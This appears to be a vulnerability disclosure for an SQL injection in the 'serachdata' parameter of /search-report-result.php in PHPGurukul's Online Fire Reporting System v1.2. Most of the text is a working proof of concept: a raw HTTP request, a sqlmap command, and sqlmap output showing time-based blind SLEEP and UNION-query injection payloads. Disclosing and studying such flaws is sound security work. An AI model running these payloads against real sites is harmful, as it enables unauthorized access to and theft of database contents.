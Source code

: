 # SQLi vulnerability in Online Fire Reporting System v1.2 of file /search-report-result.php

**vender**:

- Online Fire Reporting System

**SoftLink**:

- [Online Fire Reporting System Project in PHP- PHPGurukul](https://phpgurukul.com/online-fire-reporting-system-using-php-and-mysql/)

**Vulnerable File**

- /search-report-result.php

**Version**

- V1.2

### POC

```http
POST /search-report-result.php HTTP/1.1
Host: www.firereport.top
Cookie: PHPSESSID=vhqmp6o0p6p8lf7sscpqhrp6tf
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Priority: u=0, i
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0

serachdata=test
```



```bash
sqlmap -u http://localhost/search-report-result.php --data="serachdata=test" -p serachdata --batch
```





```
---
Parameter: serachdata (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: serachdata=test' AND (SELECT 1379 FROM (SELECT(SLEEP(5)))dsAx)-- nnah

    Type: UNION query
    Title: Generic UNION query (NULL) - 10 columns
    Payload: serachdata=test' UNION ALL SELECT NULL,NULL,CONCAT(0x716a6b6271,0x457447454e615370536e4d76764557546f4a5a5370505762507474724a706d54446a4375714c4157,0x716a627171),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
```

![image-20250531182118604](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505311821955.png)